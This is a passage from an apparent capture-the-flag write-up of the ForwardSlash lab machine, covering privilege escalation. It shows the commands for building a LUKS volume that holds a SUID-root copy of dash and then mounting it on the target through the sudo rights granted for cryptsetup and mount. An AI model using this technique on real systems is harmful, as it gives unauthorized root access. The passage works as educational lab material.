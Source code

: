 Now the device exists:

```

root@kali# ls /dev/mapper/
fsmal

```

I’ll create a file system in the volume:

```

root@kali# mkfs.ext4 /dev/mapper/fsmal 
mke2fs 1.45.6 (20-Mar-2020)
Creating filesystem with 4096 1k blocks and 1024 inodes

Allocating group tables: done                            
Writing inode tables: done                            
Creating journal (1024 blocks): done
Writing superblocks and filesystem accounting information: done

```

Now I’ll mount the volume:

```

root@kali# mount /dev/mapper/fsmal /mnt/

```

For a payload, I’ll add a copy of `dash` and make it SUID:

```

root@kali# cp /bin/dash /mnt/
root@kali# chmod 4777 /mnt/dash 
root@kali# ls -l /mnt/dash
-rwsrwxrwx 1 root root 121464 Jul  3 21:57 /mnt/dash

```

Now I’ll unmount and close it:

```

root@kali# umount /mnt 
root@kali# cryptsetup luksClose fsmal 

```

I’ll move this to ForwardSlash using `scp` into `/dev/shm`. Now I’ll use the commands pain can run with `sudo` to mount the volume:

```

pain@forwardslash:/dev/shm$ sudo /sbin/cryptsetup luksOpen mal.luks backup
Enter passphrase for mal.luks: 
pain@forwardslash:/dev/shm$ sudo /bin/mount /dev/mapper/backup ./mnt/

```

